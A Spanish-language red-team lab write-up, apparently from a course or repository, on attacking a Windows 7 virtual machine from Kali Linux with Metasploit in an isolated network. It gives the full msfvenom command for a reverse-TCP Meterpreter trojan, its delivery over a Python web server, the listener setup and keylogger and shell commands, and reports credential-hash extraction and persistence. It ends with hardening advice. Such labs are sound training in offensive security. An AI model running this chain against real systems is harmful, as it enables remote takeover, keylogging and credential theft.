

Laboratorio Red Team: Pruebas de Explotación de vulnerabilidades en Entornos Aislados utilizando Metasploit, Kali Linux
📝 1. Objetivo General
Ejecutar una práctica real de hacking ético en un laboratorio controlado, mediante la explotación de vulnerabilidades en un sistema operativo Windows 7 desde Kali Linux, utilizando Metasploit para obtener acceso remoto, realizar acciones de post-explotación y analizar vectores de ataque sobre sistemas operativos reales desplegados en máquinas virtuales.
🎯 2. Objetivos Específicos
- Configurar un laboratorio con sistemas operativos reales virtualizados.
- Realizar un ataque real desde Kali Linux hacia Windows 7.
- Obtener una sesión Meterpreter real mediante un payload ejecutado en el sistema víctima.
- Ejecutar técnicas de post-explotación como elevación de privilegios, keylogging, extracción de credenciales, entre otros.
- Documentar todo el proceso con enfoque técnico y ético.
🧰 3. Herramientas Utilizadas
| Herramienta | Descripción |
|---|---|
| Kali Linux (x64) | Sistema atacante con herramientas ofensivas |
| Windows 7 SP1 (x86 o x64) | Sistema víctima vulnerable |
| Metasploit Framework | Plataforma de explotación y post-explotación |
| msfvenom | Generación de payloads personalizados |
| VMware | Entorno de virtualización, sistemas operativos reales |
| Wireshark (opcional) | Análisis de tráfico de red |
🧱 4. Arquitectura del Laboratorio Real

🔹 Ambos sistemas están virtualizados, pero operan como sistemas completos y funcionales, conectados por una red interna VMnet1
⚙️ 5. Desarrollo del Ataque Real
🔸 5.1. Conexión inicial
- En el Virtual Network Editor habilitar el DHCP en la
VMnet1 - Conectar el Kali y el Windows 7 a la
VMnet1 - Verificar que Kali y Windows 7 recibieron dirección IP (
ifconfigeipconfigrespectivamente) y probar conectividad (ping) entre ambas.
🔸 5.2. Generación del payload (Kali)
Propósito: Generar un archivo ejecutable que establecerá una conexión inversa desde la máquina de prueba a Kali Linux.
Acciones:
- Crea una carpeta y dentro de esta abre una terminal en Kali Linux.
- Ejecuta el comando:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP_KALI ojo reemplazar> LPORT=4444 -f exe -o MiTrojan.exe- msfvenom: Herramienta de Metasploit para crear payloads.
- -p windows/meterpreter/reverse_tcp: Especifica el payload a usar, en este caso Meterpreter con una conexión inversa TCP para Windows.
- LHOST=<IP_KALI ojo reemplazar>: Dirección IP de Kali Linux.
- LPORT=4444: Puerto a utilizar para la conexión inversa.
- -f exe: Formato del payload, en este caso un archivo ejecutable.
- -o MiTrojan.exe: Nombre del archivo generado.
🔸 5.4. Transferir el ejecutable
En Kali, en el mismo directorio donde está MiTrojan.exe ejecutar:
python3 -m http.server 80Esto crea un servidor web básico para transferir el archivo.
En Windows 7 abrir el navegador web y entrar a la dirección del Kali (ejemplo http://192.168.80.128) y descargar MiTrojan.exe y ejecutar.
🔸 5.4. Configuración del listener
Propósito: Preparar Metasploit para escuchar y gestionar las conexiones entrantes desde el payload.
Acciones:
- Inicia Metasploit Framework ejecutando:
msfconsoleConfigura el exploit para escuchar las conexiones entrantes:
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <IP_KALI OJO reemplazar>
set LPORT 4444
exploituse exploit/multi/handler: Utiliza el módulo handler para manejar la sesión.set payload windows/meterpreter/reverse_tcp: Configura el payload que usará el handler.set LHOST <IP_KALI>: Establece la dirección IP de Kali Linux.set LPORT 4444: Establece el puerto para la conexión inversa.exploit: Inicia el handler para escuchar conexiones.
🔸 5.4. Ejecución del payload en Windows 7
El archivo MiTrojan.exe se ejecuta manualmente o mediante ingeniería social.
Se obtiene una sesión real de Meterpreter.
🔸 5.5. Post-explotación (comandos ejecutados)
Ejemplo de uso en Meterpreter:
meterpreter > ? <esto muestra todos los commandos>
sysinfo <Muestra info del sistema operativo, arquitectura, etc.>
ps <Lista procesos en ejecución (ideal para migración)>
shell <Abre una shell del sistema víctima>
keyscan_start / keyscan_dump <Inicia/dumpea el keylogger>✅ 6. Resultados del Ataque
- Se obtuvo acceso completo a Windows 7 con una sesión Meterpreter estable.
- Se capturó la pantalla, se inició un keylogger y se extrajeron hashes del SAM.
- Se logró persistencia mediante la ejecución automática del payload al inicio del sistema.
⚠️ 7. Riesgos Identificados
- Windows 7 sin parches es vulnerable a múltiples vectores de ataque (MS08-067, EternalBlue, etc.).
- La ausencia de antivirus y firewall permitió la ejecución del payload sin detección.
- Los sistemas operativos antiguos representan una amenaza grave si están en entornos productivos.
🧠 8. Análisis de Seguridad
Esta práctica demuestra cómo los atacantes pueden explotar fallos reales.
La explotación se realizó de forma 100% funcional, no simulada, sobre entornos virtualizados que representan sistemas reales.
Reforzar medidas como parcheo, antivirus, y políticas de ejecución es fundamental para evitar este tipo de ataques.
📚 9. Conclusión
El laboratorio permitió realizar un ataque real controlado desde una máquina Kali Linux hacia un sistema Windows 7, demostrando la efectividad del framework Metasploit como plataforma de explotación y post-explotación.
Se empleó un payload de tipo reverse TCP, una técnica en la que, tras la ejecución del archivo malicioso, es la máquina víctima quien inicia la conexión hacia el atacante, estableciendo un canal de comunicación inversa. Esta arquitectura es particularmente efectiva porque evade muchos firewalls, routers y soluciones de seguridad perimetrales, que suelen bloquear conexiones entrantes, pero permiten conexiones salientes desde el sistema.
Al ser la víctima quien "abre la puerta" al atacante, el payload logra establecer una sesión remota estable (Meterpreter) sin levantar sospechas inmediatas en sistemas de detección básicos. Esta característica hace que reverse TCP sea ideal para pruebas de intrusión realistas en entornos internos o desprotegidos.
La práctica refuerza el aprendizaje técnico de herramientas ofensivas reales, y evidencia la necesidad crítica de implementar controles de seguridad en los sistemas operativos vulnerables, incluyendo:
- Actualizaciones de seguridad y parches del sistema.
- Uso de soluciones EDR/antivirus modernos con análisis de comportamiento.
- Políticas de restricción de ejecución (como AppLocker o SRP).
- Firewalls que filtren también conexiones salientes no autorizadas.
Este laboratorio demuestra de forma práctica y real cómo un atacante puede tomar el control total de un sistema desactualizado mediante técnicas modernas, y remarca la importancia de una estrategia defensiva integral.
📘 10. Referencias
- https://docs.rapid7.com/metasploit
- https://www.kali.org/tools/metasploit-framework
- https://attack.mitre.org